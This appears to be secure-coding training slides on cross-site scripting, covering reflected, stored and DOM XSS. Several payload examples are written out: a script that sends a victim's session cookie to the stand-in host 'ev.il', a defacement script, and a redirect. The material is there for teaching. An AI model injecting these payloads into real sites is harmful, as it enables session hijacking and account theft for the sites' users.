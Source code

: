 rendering as:

<hr>

Search results for <b></b><img src="https://placekitten.com/g/100/100"/><b></b>:

---



# XSS Attack Payload Examples

#### Stealing User Session

```
<script>
  new Image().src="http://ev.il/hijack.php?c="+encodeURI(document.cookie);
</script>
```

#### Site Defacement

```
<script>document.body.background="http://ev.il/image.jpg";</script>
```

#### Redirect

```
<script>window.location.assign("http://ev.il");</script>
```

---

# Forms of XSS

* **Reflected XSS**: Application includes unvalidated and unescaped user input as part of HTML output
* **Stored XSS**: Application stores unsanitized user input that is viewed at a later time by another user
* **DOM XSS**: JavaScript frameworks & single-page applications dynamically include attacker-controllable data to a page

_:information_source: The previous example vulnerability and exploit of `results.jsp` is a typical Reflected XSS._

---



# Reflected XSS

![Монгол: Reflected XSS, 2016 Nurmukhamyed, used under CC-BY-SA 4.0](images/02-02-xss/reflected-xss.png)

---